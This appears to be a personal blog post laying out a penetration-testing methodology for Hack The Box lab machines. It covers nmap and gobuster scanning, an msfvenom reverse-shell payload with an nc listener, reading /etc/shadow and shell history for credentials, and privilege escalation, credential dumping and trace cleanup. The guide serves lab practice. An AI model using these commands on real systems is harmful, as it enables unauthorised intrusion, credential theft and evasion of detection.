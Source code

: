 ```yaml
---
title: "Methodologies"
date: 2025-06-28 2:42:00 +0500
categories: [Methodologies]
tags: [HTB]
---
```


## 1. Reconnaissance (Enumeration)

### Objective:

Identify open services, gather information about the target system, and uncover potential attack vectors.

### Tools & Techniques:

#### Basic Network Scanning

```bash
nmap -sC -sV -oN nmap/initial <target-ip>
```

* `-sC`: Run default scripts
* `-sV`: Version detection
* `-oN`: Output to file

#### Full Port Scan (for deeper service discovery)

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap/allports <target-ip>
```

* `-p-`: All 65535 ports
* `--min-rate`: Speed up the scan

#### Targeted Service Scanning

After identifying services:

* **HTTP**: `nikto`, `gobuster`, `feroxbuster`, `whatweb`, `wpscan`
* **SMB**: `enum4linux`, `smbclient`, `crackmapexec`
* **FTP**: Anonymous login, `nmap --script ftp*`
* **SSH**: Banner grabbing, user bruteforce with `hydra`, check for weak keys
* **DNS**: `dig`, `nslookup`, `dnsrecon`
* **SNMP**: `onesixtyone`, `snmpwalk`

#### Directory/File Enumeration

```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt,html
```

#### Web Tech Stack & Analysis

* `whatweb`, `wappalyzer`, `curl -I`
* Manually browse with **Burp Suite** or **ZAP Proxy**

---

## 2. Foothold (Initial Access)

### Objective:

Exploit a vulnerability or misconfiguration to gain low-level access (usually a user shell).

### Techniques & Tools:

#### Web Exploitation

* **Check CMS**: Use `wpscan`, `joomscan`
* **Upload forms, RCE, LFI, SQLi**: Use `Burp Suite`, `sqlmap`
* **Authenticated functionality**: Use `ffuf`/`wfuzz` to fuzz
* **Exposed Git repos**: Download `.git` and extract

#### Exploits

* Search for public exploits:

  ```bash
  searchsploit <service/version>
  ```

  Or use `exploitdb`, `github`, `CVE` search

* Use `Metasploit` for known vulnerable services (optional if allowed)

#### Reverse Shell

Generate a reverse shell payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f elf > shell.elf
python3 -m http.server 80   # to host payload
```

Catch it with:

```bash
nc -lvnp 4444
```

---

## 3. Privilege Escalation (Root)

### Objective:

Elevate privileges from a foothold user to `root` or `NT AUTHORITY\SYSTEM`.

### Tools & Techniques:

#### Manual Enumeration

Run the following script from your foothold:

```bash
linpeas.sh, linenum.sh, lse.sh (for Linux)
winPEASx64.exe, PowerUp.ps1 (for Windows)
```

Or manually check:

* **SUID binaries**: `find / -perm -4000 2>/dev/null`
* **Cron jobs**: `cat /etc/crontab`, `/etc/cron.*`
* **Scheduled tasks (Windows)**: `schtasks /query /fo LIST /v`
* **Misconfigured services**: `systemctl list-units --type=service`
* **Environment variables**: `env`, `PATH` issues

#### Kernel Exploits

Check kernel version:

```bash
uname -a
```

Search for privilege escalation:

```bash
searchsploit linux kernel <version>
```

#### Password Reuse & Creds

* Check `/etc/passwd`, `/etc/shadow`, saved credentials in `.bash_history`, scripts, config files
* Try `sudo -l`

#### Exploiting Sudo Rights

```bash
sudo -l
```

Use [GTFOBins](https://gtfobins.github.io/) or [LOLBAS](https://lolbas-project.github.io/) for binaries you can exploit with sudo privileges.

---

## 4. Post Exploitation

* Dump credentials
* Lateral movement if applicable (less common on HTB standalone)
* Cleanup traces if needed

---

## Tool Summary Table

| Phase             | Tools                                                                               |
| ----------------- | ----------------------------------------------------------------------------------- |
| Recon             | `nmap`, `gobuster`, `feroxbuster`, `whatweb`, `enum4linux`, `smbclient`, `snmpwalk` |
| Foothold          | `searchsploit`, `msfvenom`, `sqlmap`, `Burp`, `wpscan`                              |
| Priv. Escalation  | `linpeas`, `winPEAS`, `pspy`, `sudo -l`, `GTFOBins`                                 |
| Post Exploitation | `hashdump`, `netstat`, `ss`, `history`, `creds`                                     |

---
